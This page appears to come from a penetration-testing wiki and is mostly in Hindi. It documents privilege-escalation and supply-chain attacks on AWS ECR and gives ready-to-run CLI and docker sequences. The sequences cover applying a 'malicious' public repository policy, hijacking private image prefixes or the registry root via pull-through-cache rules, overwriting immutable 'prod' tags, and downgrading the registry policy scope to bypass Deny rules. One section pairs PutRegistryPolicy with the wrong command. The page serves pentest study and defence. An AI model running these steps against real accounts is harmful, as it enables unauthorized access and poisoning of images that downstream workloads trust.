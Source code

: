 # AWS - ECR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

यदि किसी attacker के पास **`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** हों, तो वह ECR में login करके images डाउनलोड कर सकता है।

For more info on how to download images:

{{#ref}}
../../aws-post-exploitation/aws-ecr-post-exploitation/README.md
{{#endref}}

**Potential Impact:** ट्रैफिक में संवेदनशील जानकारी को intercept करके indirect privesc.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

यदि किसी attacker के पास ये सभी permissions हों तो वह **ECR में login करके images upload कर सकता है**। यह उन अन्य environments में जहाँ ये images उपयोग हो रहे हैं, privileges escalate करने में उपयोगी हो सकता है।

To learn how to upload a new image/update one, check:

{{#ref}}
../../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले सेक्शन जैसा ही, लेकिन public repositories के लिए।

### `ecr:SetRepositoryPolicy`

इस permission वाले attacker **change** कर सकते हैं **repository** **policy** ताकि वे खुद (या सभी) को **read/write access** दे सकें।\
For example, in this example read access is given to everyone.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` की सामग्री:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले सेक्शन की तरह ही, लेकिन public repositories के लिए।\
एक attacker ECR Public repository की **modify the repository policy** करके अनधिकृत public access देने या अपनी privileges escalate करने में सक्षम हो सकता है।
```bash
# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**संभावित प्रभाव**: ECR Public repository तक अनधिकृत सार्वजनिक पहुँच, जिससे किसी भी उपयोगकर्ता को images को push, pull, या delete करने की अनुमति मिल सकती है।

### `ecr:PutRegistryPolicy`

इस अनुमति वाला एक हमलावर **registry policy** को **परिवर्तित** कर सकता है ताकि वह स्वयं, अपने खाते (या यहाँ तक कि सभी) को **read/write access** प्रदान कर सके।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
### ecr:CreatePullThroughCacheRule

ECR Pull Through Cache (PTC) नियमों का दुरुपयोग करके attacker-controlled upstream namespace को एक trusted private ECR prefix से मैप करें। इससे private ECR से images खींचने वाले workloads बिना private ECR में किसी push के attacker images पारदर्शी रूप से प्राप्त करेंगे।

- आवश्यक अनुमतियाँ: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. यदि ECR Public upstream का उपयोग कर रहे हैं: ecr-public:* ताकि public repo में create/push किया जा सके।
- टेस्ट किया गया upstream: public.ecr.aws

Steps (example):

1. Prepare attacker image in ECR Public
# Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
docker login public.ecr.aws/<public_alias>
docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. Create the PTC rule in private ECR to map a trusted prefix to the public registry
aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. Pull the attacker image via the private ECR path (no push to private ECR was done)
docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potential Impact: चुने गए prefix के अंतर्गत internal image names को hijack करके सप्लाई-चेन में समझौता। उस prefix का उपयोग करके private ECR से images खींचने वाला कोई भी workload attacker-controlled कंटेंट प्राप्त करेगा।

### `ecr:PutImageTagMutability`

इस अनुमति का दुरुपयोग करके tag immutability वाले repository को mutable में बदलें और trusted tags (e.g., latest, stable, prod) को attacker-controlled कंटेंट से ओवरराइट करें।

- आवश्यक अनुमतियाँ: `ecr:PutImageTagMutability` तथा push क्षमताएँ (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`)।
- प्रभाव: टैग नाम बदले बिना immutable टैग्स को चुपचाप बदलकर सप्लाई-चेन में समझौता।

Steps (example):

<details>
<summary>Mutability को टॉगल करके immutable टैग को poison करें</summary>
```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```
</details>


#### ROOT Pull-Through Cache rule के जरिए Global registry hijack

प्राइवेट ECR registry की root को upstream public registry (उदाहरण के लिए, ECR Public) से map करने के लिए special `ecrRepositoryPrefix=ROOT` का उपयोग करके एक Pull-Through Cache (PTC) rule बनाएं। प्राइवेट registry में non-existent repository के लिए कोई भी pull transparently upstream से serve किया जाएगा, जिससे private ECR में push किए बिना supply-chain hijacking संभव हो जाएगा।

- आवश्यक perms: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- प्रभाव: Pulls to `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` सफल होंगे और upstream से sourced होने वाले private repos को auto-create कर देंगे।

> Note: For `ROOT` rules, omit `--upstream-repository-prefix`. Supplying it will cause a validation error.

<details>
<summary>डेमो (us-east-1, upstream public.ecr.aws)</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
--region "$REGION" \
--ecr-repository-prefix ROOT \
--upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
--query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```
</details>

### `ecr:PutAccountSetting` (`REGISTRY_POLICY_SCOPE` को डाउनग्रेड करके registry policy के Deny को बायपास करें)

`ecr:PutAccountSetting` का दुरुपयोग करके registry policy का scope `V2` (policy सभी ECR actions पर लागू) से `V1` (policy केवल `CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage` पर लागू) में बदलें। अगर कोई कठोर registry policy Deny `CreatePullThroughCacheRule` जैसे actions को ब्लॉक कर रहा है, तो scope को `V1` पर डाउनग्रेड करने से वह enforcement हट जाता है और identity‑policy Allows लागू हो जाते हैं।

- Required perms: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- प्रभाव: ऐसी ECR actions करने की क्षमता जो पहले registry policy Deny द्वारा blocked थीं (उदा., PTC rules बनाना), जब आप अस्थायी रूप से scope को `V1` पर सेट करते हैं।

Steps (example):

<details>
<summary>CreatePullThroughCacheRule पर registry policy Deny को V1 में स्विच करके बायपास करें</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "DenyPTCAll",
"Effect": "Deny",
"Principal": "*",
"Action": ["ecr:CreatePullThroughCacheRule"],
"Resource": "*"
}
]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
--query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
